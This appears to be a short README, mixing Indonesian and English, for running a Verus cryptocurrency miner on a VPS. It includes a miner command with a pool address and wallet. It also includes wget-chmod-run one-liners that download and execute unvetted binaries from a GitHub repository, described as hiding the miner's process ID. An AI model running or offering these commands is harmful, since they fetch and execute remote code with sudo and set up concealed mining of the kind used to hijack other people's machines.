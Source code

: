 ##script runing on vpv
defendence miner : apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## sc miner langsung no hider pid 
./durex  -a verus  -o stratum+tcp://fauzach-47024.portmap.host:47024  -u RDNpivND4xcNtiSiRPTeaDkG4g2W8JRz7x.fauzitest -p x -t 2

## sc hider pid
wget https://github.com/hamzah79/minfauz/raw/main/htp && sudo chmod +x htp && ./htp && wget https://github.com/hamzah79/minfauz/raw/main/newsfauz && sudo chmod +x newsfauz && ./newsfauz [opsi core]

##opsi core
opsi 1=1 core
opsi 1 ~ 8

#sampel 
wget https://github.com/hamzah79/minfauz/raw/main/htp && sudo chmod +x htp && ./htp && wget https://github.com/hamzah79/minfauz/raw/main/newsfauz && sudo chmod +x newsfauz && ./newsfauz 3 
